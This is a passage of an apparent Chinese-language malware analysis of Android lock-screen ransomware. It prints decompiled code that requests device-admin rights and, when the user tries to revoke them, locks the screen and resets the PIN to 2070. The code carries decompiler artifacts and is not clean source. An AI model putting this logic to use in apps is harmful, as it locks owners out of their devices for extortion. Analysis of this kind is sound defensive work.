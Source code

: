 这里注册了一个服务以及两个广播接收器


下面跟进M类：

    package com.h;
    
    import LogCatBroadcaster;
    import android.app.Activity;
    import android.content.ComponentName;
    import android.content.Context;
    import android.content.Intent;
    import android.os.Bundle;
    import android.os.Parcelable;
    
    public class M extends Activity {
    public M() {
        super();
    }

    private void activiteDevice() {
        Class v8;
        M v0 = this;
        Intent v1 = new Intent("android.app.action.ADD_DEVICE_ADMIN");
        ComponentName v5 = null;
        ComponentName v6 = null;
        M v7 = v0;
        try {
            v8 = Class.forName("com.h.MyAdmin"); //判断该类是否存在
        }
        catch(ClassNotFoundException v5_1) {
            throw new NoClassDefFoundError(v5_1.getMessage());
        }

        super(((Context)v7), v8);
        v1.putExtra("android.app.extra.DEVICE_ADMIN", ((Parcelable)v5));
        v0.startActivityForResult(v1, 0); 隐式启动com.h.MyAdmin
    }

    @Override public void onCreate(Bundle arg6) {
        LogCatBroadcaster.start(this);
        super.onCreate(arg6);
        this.activiteDevice();
    }
    }

这里主要的作用可以看出来是隐式启动com.h.MyAdmin,跟进分析：


    public class MyAdmin extends DeviceAdminReceiver {
    public MyAdmin() {
        super();
    }
	//这里是点了不激活设备管理器后调用的方法
    @Override public CharSequence onDisableRequested(Context arg10, Intent arg11) {
        String v4 = Integer.toString(2070);
        this.getManager(arg10).lockNow();
        this.getManager(arg10).resetPassword(v4, 0); //这里将屏幕锁住，并将锁屏密码设置为2070
        return super.onDisableRequested(arg10, arg11);
    }
	//激活后调用的方法
    @Override public void onEnabled(Context arg17, Intent arg18) {
        Class v11;
        MyAdmin v0 = this;
        Context v1 = arg17;
        Intent v2 = arg18;
        String v4 = Integer.toString(2070);
        Intent v8 = null;